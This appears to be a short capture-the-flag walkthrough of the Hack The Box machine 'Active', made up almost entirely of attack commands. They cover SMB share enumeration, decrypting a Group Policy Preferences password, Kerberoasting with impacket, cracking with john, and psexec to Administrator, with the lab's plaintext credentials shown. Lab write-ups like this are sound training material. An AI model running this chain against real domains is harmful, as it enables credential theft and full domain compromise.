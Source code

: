 Active
========================

    sudo nmap_enum active.htb | tee nmap_output.txt

Aqui sossegado:

    smbclient -L //10.10.10.100
    smbclient //10.10.10.100/Replication -c 'recurse true; ls'
    
![qownnotes-media-vtsXyC](../../../media/qownnotes-media-vtsXyC.png)

    smbclient //10.10.10.100/Replication
    cd active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups
    get Groups.xml

# Exploitation

    gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ


![qownnotes-media-jysviZ](../../../media/qownnotes-media-jysviZ.png)

    impacket-psexec active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100
    
    impacket-GetNPUsers active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

# Privilege Escalation
    
    impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
    
![qownnotes-media-tKQdxa](../../../media/qownnotes-media-tKQdxa.png)

    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    
    impacket-psexec 'active.htb/Administrator:Ticketmaster1968@10.10.10.100'
    
![qownnotes-media-WHXRui](../../../media/qownnotes-media-WHXRui.png)
